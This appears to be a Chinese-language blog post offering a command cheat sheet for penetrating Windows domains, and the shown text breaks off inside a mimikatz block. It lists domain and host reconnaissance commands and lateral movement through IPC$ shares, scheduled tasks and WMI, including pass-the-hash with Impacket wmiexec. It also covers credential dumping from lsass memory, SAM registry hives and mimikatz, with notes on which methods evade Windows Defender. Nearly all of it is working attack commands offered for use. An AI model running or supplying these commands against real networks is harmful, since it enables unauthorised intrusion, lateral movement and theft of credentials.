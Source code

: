```yaml
---
layout: post
title: 域渗透CMD命令集
---
```


## 0x00 信息收集

---

```
net view /domain:XXX
查看XXX域中的机器列表
net view /domain
查看内网中有多少个域
setspn -T jumbolab.com -Q */*
快速寻找内网中注册的服务
net user /domain
查看域用户
net group "domain admins" /domain
查看域管
net time /domain
定位域控。也可以通过ipconfig /all 一般DNS就是域控
nltest /domain_trusts
列出域信任关系
cmdkey /list
远程连接凭据
nslookup -type=ns domain.com
域传输漏洞。查找所有的DNS解析
dsquery computer domainroot -limit 65535 && net group "domain computers" /domain
列出该域内所有机器名
dsquery user domainroot -limit 65535 && net user /domain
列出该域内所有用户名
dsquery subnet
列出该域内网段划分
dsquery group && net group /domain
列出该域内分组 
dsquery ou
列出该域内组织单位 
dsquery server && net time /domain
列出该域内域控制器 
wmic /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
列出杀软
wmic product get name,version
查看安装的软件
quser
查看在线用户
net config workstation
查看当前登陆域， 工作站域会显示出你当前的域叫 **，而工作组则只会显示出：WORKGROUP
dnsdump.exe -u 域名\与用户 -p 域密码 域控机器名
用普通域用户获取域内所有DNS解析
for /l %i in (1,1,255) do @ ping 10.233.33.%i -w 1 -n 1|find /i "ttl="
主机发现
find / -type f -uid +0
找不是root用户编辑的文件。用于找密码
tee可以替代>
```



## 0x01 IPC

```
net use \\IP\ipc$ "密码" /user:administrator
#建立IPC连接
net time \\IP
#获取远程IP的时间
copy calc.bat \\IP\C$
#把本地的calc.bat传到目标C盘
at \\IP 21:41 c:\calc.bat
#创建计划任务
at \\IP 21:41 cmd.exe /c  "ipconfig > c:\1.txt"
#直接执行命令
type \\IP\C$\1.txt
#获取命令执行结果
schtasks /create /s IP /tn 计划任务名 /sconstart /tr c:\calc.bat /ru system /f
#用schtasks命令创建计划任务
schtasks /delete /s IP /tn "计划任务名" /f 
```



## 0x02 WMI

- Impacket中的wmiexec.py

下载地址：https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

```
wmic /node:IP /user:administrator /password:password process call create "cmd.exe /c ipconfig > c:\ip.txt"
type \\IP\C$\ip.txt
系统自带的WMIC命令。执行无日志
wmiexec.py Username:Password@IP

如果对wmiexec.py指定-hashes的话，则可进行哈希传递
python wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP    // 哈希传递获得shell
python wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP "ipconfig"   // 执行命令
```

- EXE版本的wmiexec.exe

  命令同wmiexec.py

- wmiexec.vbs

  ```
  cscript.exe //nologo wmiexec.vbs /shell IP username password
  // cscript用于在Windows中执行脚本
  ```

 ## 0x03 导出sam散列

- 使用Procdump dump内存，目前该操作会被windows Defender 查杀

  ```procdump64.exe -accepteula -ma lsass.exe lsass.dmp```

- 通过注册表导出，不会被查杀

  `reg save hklm\sam C:\hash\sam.hive`

  `reg save hklm\system C:\hash\system.hive`

- 通过powershell dump 

  ```powershell "IEX (New-ObjectNet.WebClient).DownloadString('c:/Get-PassHashes.ps1');  Get-PassHashes "```
  
- mimikatz

  ```
  mimikatz.exe 
  “sekurlsa::minidump lsass.dmp ” 
  “sekurlsa::logonPasswords full” exit
  
